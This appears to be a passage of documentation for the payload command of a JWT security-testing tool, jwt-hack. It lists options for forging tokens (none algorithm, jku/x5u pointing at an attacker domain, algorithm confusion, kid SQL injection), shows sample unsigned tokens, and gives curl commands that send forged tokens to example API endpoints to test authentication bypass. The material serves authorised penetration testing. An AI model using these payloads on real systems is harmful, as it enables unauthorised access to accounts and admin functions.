 ## Command Options

### Required
- `<TOKEN>` - Base JWT token for payload generation

### Target Selection
- `--target <TYPE>` - Payload types: `all`, `none`, `jku`, `x5u`, `alg_confusion`, `kid_sql`, `x5c`, `cty`

### JKU/X5U Attack Options
- `--jwk-trust <DOMAIN>` - Trusted domain for bypass techniques
- `--jwk-attack <DOMAIN>` - Attacker-controlled domain
- `--jwk-protocol <PROTOCOL>` - Protocol to use (http/https, default: https)

## Output Format

Payloads are displayed with:
- Attack type identifier
- Modified JWT token
- Description of the attack vector
- Usage recommendations

Example output:
```
🎯 None Algorithm Attack Payloads:

[1] None Algorithm (lowercase)
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0In0.

[2] None Algorithm (capitalized)  
eyJhbGciOiJOb25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0In0.

[3] None Algorithm (uppercase)
eyJhbGciOiJOT05FIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxMjM0In0.
```

## Attack Scenarios

### Testing Authentication Bypass
```bash
# Test if application accepts unsigned tokens
jwt-hack payload <TOKEN> --target=none

# Test each generated payload:
curl -H "Authorization: Bearer <NONE_PAYLOAD>" https://api.example.com/user
```

### Algorithm Confusion Testing
```bash
# Generate algorithm confusion payloads
jwt-hack payload <RSA_TOKEN> --target=alg_confusion

# Test with public key content as HMAC secret
curl -H "Authorization: Bearer <CONFUSED_PAYLOAD>" https://api.example.com/admin
```

